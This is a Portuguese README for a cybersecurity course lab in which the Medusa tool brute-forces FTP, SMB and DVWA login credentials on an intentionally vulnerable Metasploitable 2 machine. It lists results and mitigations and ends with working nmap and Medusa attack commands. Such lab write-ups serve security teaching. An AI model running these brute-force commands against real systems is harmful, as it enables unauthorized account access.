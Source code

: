 # 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição

Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos

- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba & VSFTPD** - Serviços de rede

## 📊 Resultados

✅ Credenciais fracas identificadas com sucesso

✅ Serviços vulneráveis expostos

✅ Demonstração da eficácia de ataques de força bruta

✅ Acesso obtido em serviços FTP e SMB

✅ Enumeração de shares Samba bem-sucedida

## 🛡️ Medidas de Mitigação

🔒 Implementar políticas de senha forte

⚠️ Configurar bloqueio de conta após tentativas falhas

🔐 Utilizar autenticação multifator (MFA)

📊 Monitorar logs de acesso

🌐 Restringir acesso por rede (firewall)

## ⚡ Comandos Principais

```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

# Brute force HTTP (DVWA)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER&password=^PASS&login=Login' -m FAIL:'Login failed'

